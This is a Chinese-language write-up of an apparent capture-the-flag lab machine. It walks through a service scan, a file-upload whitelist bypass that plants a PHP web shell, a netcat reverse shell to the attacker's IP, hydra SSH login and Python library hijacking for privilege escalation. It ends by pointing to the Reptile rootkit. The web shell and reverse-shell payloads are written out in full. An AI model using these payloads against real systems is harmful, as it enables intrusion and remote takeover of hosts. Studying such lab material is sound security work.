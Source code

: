 做virtualBox的端口映射吧

|   |   |   |
|---|---|---|
|suuk|medim|文件白名单绕过、反弹shell、$paht环境变量更改、python 库劫持提权、Reptile提权、sandfly-processdecloak使用|
# 服务扫描

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p 22,80 192.168.18.238

```
# GetSHell
访问80http://192.168.18.238/
文件上传，白名单限制,只允许图片格式,使用1.php.jpg的方式绕过文件上传，原因可能是因为后端只取点后的第一个后缀进行解析。
```css
POST /upload.php HTTP/1.1

Host: 192.168.18.238

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: multipart/form-data; boundary=---------------------------58834982911681499741555270890

Content-Length: 365

Origin: http://192.168.18.238

Connection: close

Referer: http://192.168.18.238/

Upgrade-Insecure-Requests: 1



-----------------------------58834982911681499741555270890

Content-Disposition: form-data; name="photo"; filename="1.php.jpg"

Content-Type: image/png



<?php system($_GET['cmd']);?>

-----------------------------58834982911681499741555270890

Content-Disposition: form-data; name="submit"



Upload

-----------------------------58834982911681499741555270890--
```

访问http://192.168.18.238/upload/1.php.jpg?cmd=id

反弹shell
```css
http://192.168.18.238/upload/1.php.jpg?cmd=nc%20-e%20/bin/bash%20192.168.44.128%209001


┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [192.168.44.128] from (UNKNOWN) [192.168.44.10] 4854
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
script /dev/null -c bash
Script started, file is /dev/null
www-data@kuus:/var/www/html/upload$ 

```

# 提权
tignasse 账号下有个.pass.txt 文件，但是经过测试并没有用
尝试常规的sudo\suid\内核\任务计划\进程分析手段、爆破了一段时间之后,也没结果。实在不想浪费时间了，看了别人的writeup，才知道。这里密码另有隐情！
```c
www-data@kuus:/home$ ls
ls
mister_b  tignasse

www-data@kuus:/home/tignasse$ more .pass.txt
more .pass.txt
716n4553
www-data@kuus:/home/tignasse$ cat .pass.txt
cat .pass.txt
Try harder !

```

hydra
```c
hydra -l tignasse -p 716n4553 ssh://192.168.18.238

[22][ssh] host: 192.168.18.238   login: tignasse   password: 716n4553
```

ssh
```c
┌──(kali㉿kali)-[~]
└─$ sudo ssh tignasse@192.168.18.238

tignasse@kuus:~$ sudo -l
    (mister_b) NOPASSWD: /usr/bin/python /opt/games/game.py

```
tignasse 用户下，可以看到mister_b 用户有个特权脚本
game.py文件由用户mister_b所有，它导入3 个库。可以看到导入的库使用了可能被滥用的相对路径。
1、我们在/opt/games内创建一个名为random.py的文件，其中包含以下内容：
```
import os 
os.system("nc -e /bin/bash 192.168.44.128 9000")
```
2.、将/opt/games添加到PATH：
通过 python 库劫持进行的权限升级，因为 python 会搜索它导入的库，这些库通常是 PATH 中第一个的库，这就是我们在PATH之前添加/opt/games的原因。
3、最后我们使用nc 监听 2334端口，然后使用sudo 执行该脚本后，成功获取mister_b权限

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [192.168.44.128] from (UNKNOWN) [192.168.44.10] 4315
id
uid=1001(mister_b) gid=1001(mister_b) groups=1001(mister_b)
script /dev/null -c bash
Script started, file is /dev/null


mister_b@kuus:~$ cat user.txt
cat user.txt
Ciphura

```

历史记录发现执行了一个二进制文件
```c
mister_b@kuus:~$ cat .bash_history
cat .bash_history
ps -aux |grep root
ss -altp
sudo -l
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
./sandfly-processdecloak
exit

```
sandfly-processdecloak是一个实用程序，用于快速扫描被常见和不常见的可加载内核模块隐形 Rootkit 隐藏的 Linux 进程 ID (PID)，并将其隐藏起来，使它们可见。比如：Diamorphine, Reptile and variants

编译了一个上传上去执行并没有看到隐藏进程，后面找了一下reptile项目，发现reptile 文件夹也是隐藏的。

https://github.com/f0rb1dd3n/Reptile/wiki/Local-Usage